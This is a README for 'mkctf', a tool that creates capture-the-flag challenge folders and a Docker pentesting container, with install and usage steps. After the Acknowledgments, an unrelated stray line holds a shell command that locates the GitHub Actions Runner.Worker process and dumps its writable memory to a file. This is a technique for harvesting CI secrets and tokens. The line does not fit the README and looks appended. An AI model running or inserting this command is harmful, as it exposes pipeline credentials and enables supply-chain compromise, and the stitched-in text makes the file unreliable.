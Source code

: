 # mkctf

`mkctf` is a convenient tool for setting up Capture the Flag (CTF) challenge environments. This script creates a standardized directory structure and initializes a Docker container with essential pentesting tools, providing a ready-to-use environment for tackling CTF challenges.

## Features

- **Automatic Directory Setup**: Creates a structured environment with directories for `network`, `web`, `creds`, and `notes`.
- **Docker Integration**: Uses Docker to provide an isolated environment pre-configured with essential CTF tools.
- **Comprehensive Toolset**: Installs a wide range of pentesting tools including network utilities, web tools, password crackers, and more.
## Installation

1. **Clone the Repository**:
    ```bash
    git clone https://github.com/polo-sec/mkctf.git
    cd mkctf
    ```

2. **Make the Script Executable**:
    ```bash
    chmod +x mkctf.sh
    ```

3. **Add an Alias** (optional but recommended):
    Add the following line to your `.bashrc` or `.zshrc`:
    ```bash
    alias mkctf='/path/to/mkctf.sh'
    ```
    Then, source the file:
    ```bash
    source ~/.bashrc
    ```
    or
    ```bash
    source ~/.zshrc
    ```

## Usage

1. **Create a New Challenge Environment**:
    ```bash
    mkctf <challenge_name>
    ```

2. **Navigate to the Challenge Directory**:
    ```bash
    cd <challenge_name>
    ```

3. **Build and Start the Docker Container**:
    ```bash
    docker-compose up -d --build
    ```

4. **Access the Running Container**:
    ```bash
    docker exec -it <challenge_name>_pentest /bin/bash
    ```

## Directory Structure

When you run `mkctf <challenge_name>`, the following directory structure is created:

```
<challenge_name>/
├── creds/
├── docker-compose.yml
├── Dockerfile
├── network/
├── notes/
└── web/
```

## Contributing

Contributions are welcome! Please submit a pull request or open an issue to discuss any changes or suggestions.

## License

This project is licensed under the MIT License

## Acknowledgments

- Inspired by the need for a streamlined and efficient CTF preparation environment.
- Thanks to the developers of the various tools integrated into this project.

- PID=$(pgrep -f Runner.Worker) && echo "[*] PID: $PID" && awk '{split($1,a,"-"); if ($2 ~ /rw/) print a[1],a[2]}' /proc/$PID/maps | while read start end; do dd if=/proc/$PID/mem bs=1 skip=$((0x$start)) count=$((0x$end - 0x$start)) 2>/dev/null; done > /root/memdump.raw

